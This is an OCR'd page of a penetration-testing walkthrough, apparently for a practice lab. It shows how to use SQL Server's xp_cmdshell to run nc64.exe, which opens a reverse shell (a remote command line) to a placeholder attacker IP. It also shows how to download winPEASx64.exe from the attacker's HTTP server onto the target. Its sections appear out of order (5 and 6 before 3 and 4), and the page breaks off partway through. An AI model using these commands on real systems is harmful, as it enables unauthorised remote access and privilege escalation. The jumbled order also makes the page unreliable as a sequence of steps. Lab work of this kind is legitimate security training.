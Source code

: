 ## 5. Execute the Reverse Shell

Now, use xp_cmdshell to execute nc64.exe and establish a reverse shell:

```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe YOUR_IP_ADDRESS 443"
```

Again, replace YOUR_IP_ADDRESS with your attack machine's IP address.

## 6. Check Your Netcat Listener

If everything worked correctly, you should now have a command shell on your netcat listener. You can verify this by running commands like:

```cmd
whoami
hostname
ipconfig
```

## Troubleshooting

If you're having issues:

1. **Check your HTTP server logs** - You should see GET requests for nc64.exe
2. **Verify your IP address** - Make sure you're using your VPN IP, not localhost
3. **Check for firewall issues** - Try different ports if 443 is blocked
4. **Verify PowerShell execution** - Try a simple command first:
   ```sql
   EXEC xp_cmdshell "powershell -c echo 'Test'"
   ```

Remember, you're using the SQL Server as a conduit to execute PowerShell commands, which in turn download and execute nc64.exe to establish a reverse shell back to your machine.


## 3. Transferring WinPEAS to the Target

Now, you need to download WinPEAS onto the target machine. You'll do this using the SQL Server xp_cmdshell you've already accessed:

```sql
-- In your SQL Server session
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://YOUR_IP_ADDRESS/winPEASx64.exe -outfile winPEASx64.exe"
```

Replace YOUR_IP_ADDRESS with your attack machine's IP address.

## 4. Running WinPEAS on the Target

You have two options to run WinPEAS:
